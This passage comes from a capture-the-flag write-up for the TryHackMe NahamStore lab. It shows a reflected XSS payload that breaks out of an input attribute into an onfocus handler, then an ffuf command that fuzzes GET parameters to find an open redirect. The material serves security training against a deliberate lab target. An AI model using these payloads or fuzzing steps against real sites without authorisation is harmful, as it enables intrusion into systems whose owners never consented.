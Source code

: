 **To exploit this, I'll:**

- Escape the attribute, then include the XSS payload into an event handler:

```html
<input placeholder="Discount Code" class="form-control" name="discount" value="" autofocus="" onfocus="alert(1)">
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a21.png)

# Task 3 - Open Redirect

```
Find two URL parameters that produce an Open Redirect
```

1. Open Redirect One

**We can fuzz hidden GET parameter in the home page of `nahamstore.thm`:**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://nahamstore.thm/?FUZZ=https://siunam321.github.io -fw 985 
[...]
r                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 207ms]
```

Found **`r` GET parameter**.
